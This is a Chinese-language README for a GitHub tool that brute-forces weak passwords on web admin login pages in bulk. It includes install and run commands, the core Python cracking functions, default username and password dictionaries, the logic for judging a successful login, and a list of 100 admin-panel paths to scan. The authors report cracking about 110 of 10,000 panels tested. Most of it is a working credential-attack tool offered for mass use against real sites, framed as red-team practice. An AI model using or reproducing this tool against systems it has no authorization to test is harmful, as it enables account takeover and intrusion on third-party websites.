


# web_pwd_common_crack
通用的web弱口令破解脚本，旨在批量检测那些没有验证码的管理后台。

随着攻防演练和一些漏洞挖掘任务的增多，有时候需要大批量快速的检测一些网站后台安全性，特别是测试一些管理弱口令，这种难度不大但比较费时费力的工作就需要一个自动化的脚本来完成了。因此就有了这个小工具——通用web弱口令破解脚本，配合另一个信息搜集工具https://github.com/TideSec/FuzzScanner 可以进行批量快速刷分。

  
# 安装使用

安装使用都比较简单：

从Github上拖下来

```
git clone https://github.com/TideSec/web_pwd_common_crack
```

安装requirements.txt依赖

```
pip install -r requirements.txt

```

运行脚本即可

```
python web_pwd_crack.py url.txt 50   --> url.txt为待扫描URL地址列表,50为线程数，默认为50
```

url.txt为待检测URL地址，可以自己写个脚本批量从搜索引擎获取，也可以自己用目录枚举工具去搜集。


# 功能原理

1、访问目标地址，分析关键字

原理非常low，就是从页面中提取表单，对表单中的内容进行检索，发现存在用户名、密码、username、pwd、pass之类的字段则认为是登录页面，然后提取参数组成data数据，发送给crack函数进行破解。

由于现在各种网站的请求包的多样性，目前没法做到像wvs那样能提取到所有的登录post，只是根据简单的关键字进行了提取。

```
logins =['用户名','密码','login','denglu','登录','user','pass','yonghu','mima','pwd','zhanghao','yonghu','name','email','account']
```
在测试中还发现有时候搜索框会干扰结果，所以把搜索框又进行了排除
```
sous = ['检索','搜','search','查找','keyword','关键字']
```
另外，目前不支持自动识别验证码，所以对验证码也进行了排除

```
yzms = ['验证码','点击更换','点击刷新','checkcode','valicode','code','captcha']
```
2、通过解析页面获取post地址及参数

```
def get_post_get_page(content,url):
    form_action = str(content).split('\n')[0]
    # print form_action
    soup = BS(form_action, "lxml")
    url_path = ''
    for x in re.findall(".*?/",url):
        url_path =  url_path+x

    action_url = soup.form['action']
    if str(action_url).startswith('http'):
        path = action_url
    else:
        path = url_path+soup.form['action']
    method = soup.form['method']
    return path,method
    
```

3、在获取相关参数和path后调用破解函数web_crack进行密码破解

```
def web_crack(method,path,data):
    conn =  requests.session()
    res0 = conn.get(path, headers=requests_headers(), allow_redirects=False,timeout=10,proxies = requests_proxies())
    error_length,cookie_error_flag,dynamic_req_len = get_error_length(conn,method,path,data)
    if dynamic_req_len:
        return False,False

    num = 0
    success_flag = 0
    dic_all = len(USERNAME_DIC)*len(PASSWORD_DIC)
    for user_name in USERNAME_DIC:
        for pass_word in PASSWORD_DIC:
            data1 = data
            # print data1
            user_name = user_name.strip()
            pass_word = pass_word.strip()
            pass_word = str(pass_word.replace('{user}', user_name))
            data2 = str(data1.replace('%7Buser_name%7D', user_name))
            data2 = str(data2.replace('%7Bpass_word%7D', pass_word))

            num = num+1

            res = conn.post(url = path,data = data2, headers=requests_headers(), timeout=10,verify=False,allow_redirects=False,proxies = requests_proxies())
            cur_length = len(res.content+str(res.headers))

            if cookie_error_flag:  # cookie_error_flag表示每个数据包中都有cookie
                if cur_length!=error_length:
                    success_flag =1
                    return user_name,pass_word
            elif 'Set-Cookie' in res.headers and cur_length!=error_length:
                success_flag =1
                return user_name,pass_word
    if success_flag == 0:
        return False,False
        
```

配置了一个比较简单的字典

```
USERNAME_DIC = ['admin','guest','test','ceshi','system']
PASSWORD_DIC = ['123456','admin','password','123123','123','1','{user}','{user}{user}','{user}1','{user}123','{user}2018','{user}2017','{user}2016','{user}2015','{user}!','P@ssw0rd!!','qwa123','12345678','test','123qwe!@#','123456789','123321','1314520','666666','woaini','000000','1234567890','8888888','qwerty','1qaz2wsx','abc123','abc123456','1q2w3e4r','123qwe','a123456','p@ssw0rd','a123456789','woaini1314','qwerasdf','123456a','123456789a','987654321','qwer!@#$','5201314520', 'q123456', '123456abc', '123123123', '123456.','0123456789', 'asd123456', 'aa123456', 'q123456789', '!QAZ@WSX','12345','1234567','passw0rd','admin888']
```

4、如何判断破解成功

目前使用了几种方式相互结合的方法来共同验证。

```
1、通过返回包里有没有Set-Cookie；
2、返回数据包的长度变化；
3、使用requests.session()进行重验证；
4、返回页面的内容匹配。
```
5、优化准确度，加入了recheck函数

在测试时发现会出现误报情况，所以对成功的账户密码进行了重验证。比如：
```
1、有些系统在探测多次之后出现封ip之类的情况，这时候会干扰破解脚本的判断；
2、有些系统在开始的时候没有验证码，但错误几次后会出现验证码；
3、有些系统的提示信息会出现随机的变更，导致误报。
```


# 工作界面

扫描过程如下



扫描成功的结果会保持在web_crack_ok.txt文件中


扫描中识别到验证码、phpmyadmin等所有的日志会保存在web_crack_log.txt文件中，后期可以根据log日志再进行逐一筛查。



# 其他说明
其实在完成这个工具后，也开始明白为什么市面上没有通用的破解器，因为成功率的确不高！我测试过10000个管理后台，破解出来弱口令的大约110个，有没有漏报不清楚但基本没有误报。

成功率不高主要原因有：
```
1、web页面类型繁杂，很难准确获取并提交正确参数；

2、很多页面都有验证码，目前这个小脚本还没法自动识别验证码；

3、为了平衡时间和效率，使用了比较简单的用户名和密码字典，所以稍微复杂的密码就破解不出来了。
```

我一般会使用dirsearch或之类的目录枚举工具，配置一个比较轻便的管理后台目录字典，对目标地址进行批量扫描管理后台，然后再使用`web_pwd_crack.py`对这些后台地址批量进行弱口令破解。

贡献一个比较精简的管理后台字典（100条）

```
admin/default/login.asp
admin/login.asp
admin/manage/login.asp
admin_login/login.asp
admincp/login.asp
administrator/login.asp
login.asp
manage/login.asp
manager/login.asp
member/login.asp
admin-login.php
admin/admin-login.php
admin/admin_login.php
admin/login.php
admin2/login.php
admin_area/login.php
admin_login.php
adminarea/login.php
admincontrol/login.php
administrator/login.php
administratorlogin.php
adminlogin.php
autologin.php
bb-admin/login.php
blog/wp-login.php
checklogin.php
login.php
modelsearch/login.php
moderator/login.php
nsw/admin/login.php
pages/admin/admin-login.php
panel-administracion/login.php
processlogin.php
rcjakar/admin/login.php
relogin.php
siteadmin/login.php
sqlbuddy/login.php
userlogin.php
usuarios/login.php
webadmin/login.php
wp-login.php
account/login.jsp
accounts/login.jsp
admin/login.jsp
auth/login.jsp
jsp/extension/login.jsp
login.jsp
member/login.jsp
members/login.jsp
portalAppAdmin/login.jsp
admin.jsp
netadmin.jsp
admin.php
admin.php3
admin/admin.php
admin_area/admin.php
adminarea/admin.php
authadmin.php
bb-admin/admin.php
checkadmin.php
cmsadmin.php
dbadmin.php
fileadmin.php
isadmin.php
linusadmin-phpinfo.php
memberadmin.php
moadmin.php
modelsearch/admin.php
moderator/admin.php
panel-administracion/admin.php
phpliteadmin.php
siteadmin.php
sysadmin.php
tmp/admin.php
ur-admin.php
user/admin.php
users/admin.php
webadmin.php
webadmin/admin.php
wp-content/plugins/akismet/admin.php
admin.asp
admin.aspx
admin/default/admin.asp
admin/manage/admin.asp
admin_login/admin.asp
administrator/admin.asp
article/admin/admin.asp
denglu/admin.asp
guanli/admin.asp
houtai/admin.asp
login/admin/admin.asp
manage/admin.asp
manager/admin.asp
member/admin.asp
admin/logon.jsp
admin/secure/logon.jsp
compass/logon.jsp
logon.jsp
logon/logon.jsp

```

# ToDo

- 验证码识别
- 减少误报率
- 优化编码处理
- 能不那么low


# 关注我们

Tide安全团队正式成立于2019年1月，是以互联网攻防技术研究为目标的安全团队，目前聚集了十多位专业的安全攻防技术研究人员，专注于网络攻防、Web安全、移动终端、安全开发、IoT/物联网/工控安全等方向。

想了解更多Tide安全团队，请关注团队官网: http://www.TideSec.net 或关注公众号：

<div align=center></div>
